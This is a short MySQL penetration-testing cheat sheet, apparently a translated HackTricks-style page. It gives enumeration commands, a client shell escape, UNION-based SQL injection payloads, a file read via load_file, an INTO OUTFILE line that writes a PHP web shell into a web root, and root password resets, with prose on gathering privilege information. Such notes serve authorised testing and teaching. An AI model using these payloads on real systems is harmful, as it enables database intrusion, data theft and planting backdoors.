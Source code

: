 ### **MySQL komande**

```bash
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;

select version(); #version
select @@version(); #version
select user(); #User
select database(); #database name

#Get a shell with the mysql client user
\! sh

#Basic MySQLi
Union Select 1,2,3,4,group_concat(0x7c,table_name,0x7C) from information_schema.tables
Union Select 1,2,3,4,column_name from information_schema.columns where table_name="<TABLE NAME>"

#Read & Write
## Yo need FILE privilege to read & write to files.
select load_file('/var/lib/mysql-files/key.txt'); #Read file
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php'

#Try to change MySQL root password
UPDATE mysql.user SET Password=PASSWORD('MyNewPass') WHERE User='root';
UPDATE mysql.user SET authentication_string=PASSWORD('MyNewPass') WHERE User='root';
FLUSH PRIVILEGES;
quit;
```

```bash
mysql -u username -p < manycommands.sql #A file with all the commands you want to execute
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

#### Prikupljanje informacija o dozvolama u MySQL-u

Da biste izvršili pentestiranje MySQL baze podataka, prvo morate prikupiti informacije o dozvolama koje su dodijeljene korisnicima. Ove informacije će vam pomoći da identifikujete slabosti u konfiguraciji i pristupate podacima na neovlašćen način.

**1. Prikupljanje informacija o korisnicima**

Prvo, koristite SQL upit `SELECT user FROM mysql.user;` da biste dobili listu svih korisnika u bazi podataka. Ovaj upit će vam prikazati korisnička imena koja možete dalje istraživati.

**2. Prikupljanje informacija o privilegijama**

Zatim, koristite SQL upit `SHOW GRANTS FOR 'korisnicko_ime'@'localhost';` da biste dobili informacije o privilegijama koje su dodijeljene određenom korisniku. Zamijenite `'korisnicko_ime'` sa stvarnim korisničkim imenom koje želite istražiti.
